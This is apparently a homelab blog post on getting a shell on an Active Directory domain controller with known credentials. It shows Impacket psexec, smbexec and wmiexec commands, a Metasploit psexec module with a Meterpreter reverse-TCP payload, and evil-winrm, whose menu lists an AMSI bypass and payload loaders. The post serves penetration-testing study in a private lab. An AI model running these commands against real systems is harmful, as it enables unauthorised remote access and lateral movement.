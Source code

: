 ```yaml
---
title: " Gaining Shell Access  "
layout: post
category: Active-Directory
tags: [AD, Windows-server]
excerpt: " "
---
```


# Gaining Shell Access 
**this done when you get credential (user and pass)**

## Using [impacket](https://github.com/SecureAuthCorp/impacket)
```bash
# psexec.py DC/Username:Password@DC-IP

psexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (75).png){: }

```bash
# smbexec.py DC/Username:Password@DC-IP

smbexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (76).png){: }

```bash
# wmiexec.py DC/Username:Password@DC-IP
wmiexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (77).png){: }

## using Metasploit

```bash
use exploit/windows/smb/psexec  
set rhost #dc-ip
set smbdomain #dc-name
set smbpass  # Userpass
set smbuser  # Usarname
set Lhost  # local-ip
set payload /windows/x64/meterpreter/reverse_tcp   # payload
run # run exploit
```
![Desktop View](/assets/img/AD_Lab/1 (78).png){: }

![Desktop View](/assets/img/AD_Lab/1 (79).png){: }

- now we get shell access 

![Desktop View](/assets/img/AD_Lab/1 (80).png){: }


## Evil winrm
- Download tool [evil-winrm](github.com/Hackplayers/evil-winrm) tool

```bash

#ruby evil-winrm.rb -i DC-IP -u Username -p Password

ruby evil-winrm.rb -i 192.168.1.2 -u superman -p 'Password123!'

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823014957.png){: }


- See menu 

```bash
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823015416.png){: }
